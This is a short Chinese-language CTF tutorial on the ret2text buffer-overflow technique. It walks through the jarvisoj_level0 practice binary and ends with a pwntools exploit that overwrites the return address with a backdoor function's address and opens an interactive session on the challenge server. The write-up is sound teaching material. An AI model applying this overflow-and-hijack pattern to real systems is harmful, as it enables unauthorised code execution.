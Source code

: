 ```yaml
---
title: ret2text
---
```


## 原理

ret2text就是篡改栈帧上的返回地址为程序中已有的后门函数，我们需要知道对应返回的代码的位置。
## 例题
jarvisoj_level0，可在buuctf网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关。

![1.jpg](/images/ret2text/1.jpg)

然后我们使用ida查看一下该程序，程序很简单,有明显的栈溢出漏洞和后门函数，后门函数地址就为0x40059A。

![2.jpg](/images/ret2text/2.jpg)

![3.jpg](/images/ret2text/3.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x80个字节，由于rbp本身还占8个字节，所以溢出0x88个字节后将返回地址修改为后门函数的地址exp如下。

```python
 
from pwn import *

#p = process('./level0')
p = remote('node3.buuoj.cn',27644)
sys_addr = 0x40059A

payload = cyclic(0x88) + p64(sys_addr)

p.recv()
p.sendline(payload)
p.interactive()
```